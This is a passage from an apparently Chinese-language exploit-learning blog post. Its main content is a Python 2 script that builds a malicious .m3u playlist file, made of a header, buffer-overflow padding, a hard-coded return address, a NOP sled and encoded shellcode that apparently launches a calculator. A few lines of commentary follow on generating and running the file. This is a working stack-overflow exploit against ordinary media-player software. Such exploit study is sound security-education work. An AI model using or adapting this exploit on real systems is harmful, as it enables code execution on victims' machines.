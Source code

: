 ```python
#!/usr/bin/python
import sys

header = "\x23\x45\x58\x54\x4D\x33\x55\x0D\x0A\x23\x45\x58\x54\x49\x4E\x46" 
header += "\x3A\x33\x3A\x35\x30\x2C\x4C\x61\x6D\x62\x20\x4F\x66\x20\x47\x6F"
header += "\x64\x20\x2D\x20\x53\x65\x74\x20\x54\x6F\x20\x46\x61\x69\x6C\x20"
header += "\x0D\x0A\x44\x3A\x5C"

junk = "\x41" * 1293
ret = "\xDB\x70\xBB\x01"
nop = "\x90" * 220

calc_shell = "\xeb\x03\x59\xeb\x05\xe8\xf8\xff\xff\xff\x4f\x49\x49\x49\x49\x49"
calc_shell += "\x49\x51\x5a\x56\x54\x58\x36\x33\x30\x56\x58\x34\x41\x30\x42\x36"
calc_shell += "\x48\x48\x30\x42\x33\x30\x42\x43\x56\x58\x32\x42\x44\x42\x48\x34"
calc_shell += "\x41\x32\x41\x44\x30\x41\x44\x54\x42\x44\x51\x42\x30\x41\x44\x41"
calc_shell += "\x56\x58\x34\x5a\x38\x42\x44\x4a\x4f\x4d\x4e\x4f\x4a\x4e\x46\x44"
calc_shell += "\x42\x50\x42\x50\x42\x30\x4b\x48\x45\x34\x4e\x43\x4b\x38\x4e\x47"
calc_shell += "\x45\x30\x4a\x57\x41\x30\x4f\x4e\x4b\x48\x4f\x34\x4a\x51\x4b\x48"
calc_shell += "\x4f\x55\x42\x52\x41\x50\x4b\x4e\x49\x34\x4b\x48\x46\x53\x4b\x48"
calc_shell += "\x41\x50\x50\x4e\x41\x33\x42\x4c\x49\x49\x4e\x4a\x46\x58\x42\x4c"
calc_shell += "\x46\x37\x47\x50\x41\x4c\x4c\x4c\x4d\x30\x41\x50\x44\x4c\x4b\x4e"
calc_shell += "\x46\x4f\x4b\x53\x46\x55\x46\x52\x46\x30\x45\x37\x45\x4e\x4b\x38"
calc_shell += "\x4f\x45\x46\x32\x41\x30\x4b\x4e\x48\x56\x4b\x38\x4e\x50\x4b\x54"
calc_shell += "\x4b\x48\x4f\x45\x4e\x51\x41\x30\x4b\x4e\x4b\x58\x4e\x41\x4b\x58"
calc_shell += "\x41\x50\x4b\x4e\x49\x48\x4e\x45\x46\x42\x46\x30\x43\x4c\x41\x43"
calc_shell += "\x42\x4c\x46\x36\x4b\x58\x42\x34\x42\x33\x45\x48\x42\x4c\x4a\x57"
calc_shell += "\x4e\x30\x4b\x48\x42\x44\x4e\x30\x4b\x48\x42\x47\x4e\x41\x4d\x4a"
calc_shell += "\x4b\x48\x4a\x46\x4a\x50\x4b\x4e\x49\x30\x4b\x58\x42\x38\x42\x4b"
calc_shell += "\x42\x50\x42\x50\x42\x30\x4b\x48\x4a\x36\x4e\x53\x4f\x45\x41\x33"
calc_shell += "\x48\x4f\x42\x36\x48\x45\x49\x48\x4a\x4f\x43\x38\x42\x4c\x4b\x47"
calc_shell += "\x42\x55\x4a\x46\x42\x4f\x4c\x38\x46\x50\x4f\x55\x4a\x36\x4a\x39"
calc_shell += "\x50\x4f\x4c\x38\x50\x50\x47\x45\x4f\x4f\x47\x4e\x43\x36\x41\x36"
calc_shell += "\x4e\x56\x43\x36\x50\x32\x45\x36\x4a\x57\x45\x56\x42\x30\x5a"

if len(sys.argv) < 2:
    print 'usage: python ' + sys.argv[0] +' name.m3u'
else:
    with open(sys.argv[1],"w") as f:
        f.write(header + junk + ret + nop + calc_shell)
```

先生成一个evil1.m3u：

![](/images/180624_3.png)

看起来header是标志m3u文件的头部信息，可能软件存在格式检查。暂时不关心。

我们运行程序试试：

![](/images/180624_4.png)
